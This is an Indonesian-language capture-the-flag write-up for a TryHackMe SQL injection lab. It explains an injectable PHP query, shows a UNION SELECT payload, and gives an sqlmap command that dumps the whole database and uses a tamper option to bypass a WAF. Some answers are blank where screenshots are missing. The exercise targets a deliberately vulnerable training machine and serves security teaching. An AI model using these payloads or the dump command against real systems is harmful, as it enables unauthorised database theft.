






# Day 5 | Someone stole Santa's gift list!

`TryHackMe` `Web Exploitation` `Security`  `SQLi`

---

## Learning Outcomes

Hasil pembelajaran

- Memahami konsep dari serangan injeksi SQL (SQLi)
- Mengetahui cara menggunakan SQLMap untuk melakukan injeksi otomatis.

## Summary

tldr;

- Klik hint untuk mendapatkan clue tentang login panel Santa
- Gunakan SQLi untuk melakukan bypass login
- Intercept request pada search box yang ada pada halaman login.
- Gunakan SQLMap untuk melakukan injeksi SQL secara otomatis

## Story 

> *After last year's attack, Santa and the security team have worked hard on reviving Santa's personal portal. Hence, 'Santa's forum 2' went live.*
>
> *After the attack, logs have revealed that someone has found Santa's panel on the website and logged into his account! After doing so, they were able to dump the whole gift list database, getting all the 2020 gifts in their hands. An attacker has threatened to publish a wishlist.txt file, containing all information, but happily, for us, he was caught by the CBI (Christmas Bureau of Investigation) before that. On machine_ip:8000 you'll find the copy of the website and your goal is to replicate the attacker's actions by dumping the gift list!*

## Write-up

Sedikit pembahasan..

Pada aplikasi-aplikasi yang menggunakan database, biasanya terdapat suatu hardcoded dari SQL kueri. Hal tersebut tentunya digunakan dalam pemrosesan data user, pencarian product, dsb dari database.

Sebagai contoh: 

```
<?php
    $username = $_GET['username'];
    $result = mysql_query("SELECT * FROM users WHERE username='$username'");
?>
```

Dari kode diatas, kita mempunyai kontrol terhadap variabel `$username` karena variable ini di *passing* melalui metode GET request. 

Apa jadinya jika input yang diberikan bukan merupakan <u>username</u>, melainkan tanda `'` ?.

```
$username = '
$result = mysql_query("SELECT * FROM users WHERE username='''");
```

Setelah sedikit pengenalan SQLi diatas, writeup akan mengikuti Challenge yang diberikan, yaitu: 

### Challenge

> Visit the vulnerable application in Firefox, find Santa's secret login panel and bypass the login. Use some of the commands and tools covered throughout today's task to answer Questions #3 to #6. 
Santa reads some documentation that he wrote when setting up the application, it reads:
>
> Santa's TODO: Look at alternative database systems that are better than **sqlite**. Also, don't forget that you installed a **Web Application Firewall (WAF)** after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using `--tamper=space2comment`

Berikut tampilan dari mesin yang di deploy :




### Q1 : Without using directory brute forcing, what's Santa's secret login panel?

Login panelnya berada pada  `/santapanel`,

### Q2 : Visit Santa's secret login panel and bypass the login using SQLi

Halaman login tersebut berhasil di bypass menggunakan salah satu payload yang ada di link berikut:  

[Payload All The Things](
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

[SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)

Berikut adalah tampilan setelah login



### Q3 : How many entries are there in the gift database?

Pada search box tersebut, injeksi kueri SQL dapat dilakukan, berikut contoh payload yang digunakan.

```
' UNION SELECT NULL,NULL--
```
Hasilnya :



### Q4 : What did Paul ask for?

Anak bernama Paul meminta hadiah berupa `Github Ownership` :D 

### Q5 : What is the flag?

Berdasarkan hint, untuk menjawabnya akan digunakan tools bernama SQLMap. SQLMap dapat melakukan injeksi kueri sql secara otomatis dan masif.

SQLMap dapat membaca request yang diintersep oleh BurpSuite dan menentukan parameter yang mungkin dapat di injeksi dengan menambahkan opsi `-r [nama file]`.

Berikut ini adalah contoh request yang diintersep oleh BurpSuite, disimpan dengan nama **req**.

```
GET /santapanel?search=test HTTP/1.1
Host: 10.10.98.46:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http:/10.10.98.46:8000/santapanel?search=test
Cookie: session=eyJhdXRoIjp0cnVlfQ.X8wN5w.1Ja1P_I4nmcANhJKMUx5dTa7fCQ
Upgrade-Insecure-Requests: 1
```

> Cheatsheet SQLMap  :
- https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
- https://github.com/sqlmapproject/sqlmap/wiki/Usage


Berdasarkan informasi dari Challenge, maka susunan SQLmap dan opsinya yang digunakan adalah berikut.

```
sqlmap -r req --dbms sqlite --dump-all --tamper=space2comment --batch
```

Berikut hasilnya:





### Q6 : What is admin's password?




